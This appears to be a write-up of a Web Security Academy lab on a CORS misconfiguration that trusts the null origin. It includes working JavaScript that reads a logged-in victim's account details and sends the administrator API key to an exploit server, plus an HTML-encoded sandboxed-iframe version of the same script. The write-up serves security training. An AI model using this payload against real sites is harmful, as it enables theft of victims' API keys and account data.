





# CORS vulnerability with trusted null origin
# Objective
This website has an insecure CORS configuration in that it trusts the `null` origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, API key and active user sessions.
||
|:--:| 
| *Normal request and response* |

After adding `Origin: null` to the request, the application reflects the origin `null` origin in `Access-Control-Allow-Origin` header. Header `Access-Control-Allow-Credentials: true` is also present in response from server.
||
|:--:| 
| *Reflected null origin in response* |


## Exploitation
In order to exploit this CORS vulnerability, attacker can use the followinng code:
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ae200c90441a8f18049364d00fc008a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a1000b8046da86880ea359001170022.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>
```
HTML enoding can help deal with special characters.
||
|:--:| 
| *HTML encoding the above javascript code* |

Final page:
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial">
    </head>
    <body>
        <h4>Exploit</h4> 
        <iframe 
        sandbox="allow-scripts allow-top-navigation allow-forms"
        srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x72;&#x65;&#x71;&#x4c;&#x69;&#x73;&#x74;&#x65;&#x6e;&#x65;&#x72;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x27;&#x67;&#x65;&#x74;&#x27;&#x2c;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x65;&#x32;&#x30;&#x30;&#x63;&#x39;&#x30;&#x34;&#x34;&#x31;&#x61;&#x38;&#x66;&#x31;&#x38;&#x30;&#x34;&#x39;&#x33;&#x36;&#x34;&#x64;&#x30;&#x30;&#x66;&#x63;&#x30;&#x30;&#x38;&#x61;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x27;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x66;&#x75;&#x6e;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x72;&#x65;&#x71;&#x4c;&#x69;&#x73;&#x74;&#x65;&#x6e;&#x65;&#x72;&#x28;&#x29;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x65;&#x78;&#x70;&#x6c;&#x6f;&#x69;&#x74;&#x2d;&#x30;&#x61;&#x31;&#x30;&#x30;&#x30;&#x62;&#x38;&#x30;&#x34;&#x36;&#x64;&#x61;&#x38;&#x36;&#x38;&#x38;&#x30;&#x65;&#x61;&#x33;&#x35;&#x39;&#x30;&#x30;&#x31;&#x31;&#x37;&#x30;&#x30;&#x32;&#x32;&#x2e;&#x65;&#x78;&#x70;&#x6c;&#x6f;&#x69;&#x74;&#x2d;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x6c;&#x6f;&#x67;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x27;&#x2b;&#x65;&#x6e;&#x63;&#x6f;&#x64;&#x65;&#x55;&#x52;&#x49;&#x43;&#x6f;&#x6d;&#x70;&#x6f;&#x6e;&#x65;&#x6e;&#x74;&#x28;&#x74;&#x68;&#x69;&#x73;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x3b;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;">
        </iframe>
    </body>
</html>
```

||
|:--:| 
| *Log with administrator API key* |
||
| *URL decoded data* |

